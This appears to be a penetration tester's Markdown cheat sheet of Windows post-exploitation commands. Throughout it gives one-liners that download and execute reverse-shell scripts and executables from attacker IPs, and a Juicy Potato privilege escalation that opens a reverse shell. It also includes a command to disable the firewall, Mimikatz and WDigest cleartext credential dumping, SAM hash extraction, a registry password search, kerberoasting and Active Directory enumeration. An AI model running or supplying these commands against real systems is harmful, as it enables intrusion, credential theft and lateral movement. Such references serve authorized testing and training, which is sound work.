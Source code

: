 #### Downloading Files From Powershell
```
powershell -c "Invoke-WebRequest -Uri 'http://10.13.14.198:8000/PrintSpoofer.exe' -OutFile 'C:\Windows\Temp\PrintSpoofer.exe'"

powershell "(New-Object System.Net.WebClient).Downloadfile('http://192.168.119.188:8000/PrintSpoofer32.exe','PrintSpoofer.exe')"

powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.101:8000/revShell.ps1')
(new-object net.webclient).downloadfile('http://10.10.14.5/rev.bat', 'C:\users\merlin\appdata\local\temp\rev.bat')

powershell -nop -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.101:8000/shell.ps1')"
```

#### Downloading Files From CMD
```
certutil -urlcache -split -f http://192.168.49.76/shell.exe

wget http://192.168.48.182/shell.exe

curl http://192.168.12.23/shell.exe --output shell.exe
```

#### Windows Path Variable
```
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

#### Powershell File Search Command
```
(Get-ChildItem -Force -Filter *.js -Recurse).BaseName | Sort length -Descending
```

#### Windows MSF Venom Payloads
```
msfvenom -f dll -p
msfvenom -f exe
```

#### Service Enumeration
```
(Check Service Permissions Command)
./accesschk.exe /accepteula -uwcqv user [service name]

(Check Status of Service Command)
sc qc [service name]

(Start Service Command)
net start [service name]
```

#### Downloading Files with Python
```
python3 -c "from urllib.request import urlretrieve; urlretrieve('http://python-distribute.org/distribute_setup.py', 'distribute_setup.py')"

python -c "from urllib import urlretrieve; urlretrieve('http://python-distribute.org/distribute_setup.py', 'distribute_setup.py')"
```

#### Token Enumeration
```
whoami /priv
```

#### Search Registry Files for Passwords
```
reg query HKLM /f pass /t REG_SZ /s
```

#### Enumerating Firewall Rules
```
netsh advfirewall show currentprofile "To check if firewall is active"

netsh advfirewall firewall show rule name=all "List the current active filewall rules"

netsh advfirewall set currentprofile state off "Command to turn fireall off"
```

#### Basic Juicy Potato Usage
```
./JuicyPotato.exe -t * -p rev.bat -l 4444

rev.bat should contain command to download Invoke-PowerShellTcp.ps1 where at the bottom you have "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.25 -Port 6666"
Then have rev.bat in the same directory then run the command
```

#### Chisel Dynamic Port Forwarding
```
Kali: chisel server -p 9000 -reverse

Client: chisel client  192.168.119.188:9000 R:9001:127.0.0.1:1080 &

Client: chisel server -p 1080  --socks5 &

Kali: chisel client 127.0.0.1:9001 socks
```

#### Enumerating Open Ports
```
(To See what ports are open on this machine with their corresponding PID)
netstat -ano -p tcp 

(Use this command to query the application with the PID 1400)
tasklist |find "1400" 
```

#### Mimikatz Basic Commands
```
privilege::debug

(Dumps SAM hashes)
lsadump::sam 

(Gets logged on useres NTLM hash if we can't crack it we can pass the hash with crackmapexec)
sekurlsa::logonpasswords 

(Exports kerberos tickets for SPN accounts)
kerberos::list /export 
```

#### Dumping Clear Text Passwords with WDigest
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
gpupdate /force
mimikatz.exe
privilege::debug
sekurlsa::wdigest
```

#### Dumping SAM Hashes Manually
```
reg save hklm\sam c:\sam
reg save hklm\system c:\system

(Run this command on linux to get hashes)
samdump2 system sam
```

#### Basic Active Directory Enumeration
```
(Shows local accounts on this machine)
net user

(Shows users that exist in this domain)
net user /domain

(Shows basic information about the user)
net user jeff_admin /domain
```

#### Blood Hound
```
neo4j console
sudo bloodhound

(Run these commands on target machine)
/opt/SharpHound.exe
Invoke-BloodHound -CollectionMethod All -Domain XOR.com
```

#### Finding Computers on the Same Domain
```
Import powerview.ps1
Get-DomainComputer
nslookup xor-dc01.xor.com
```

#### Getting Service Account Passwords
```
Import modules from /opt/kerberoast
./GetUserSPNs.ps1
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "[SPN]"

(Exports kerberos tickets for SPN accounts)
kerberos::list /export

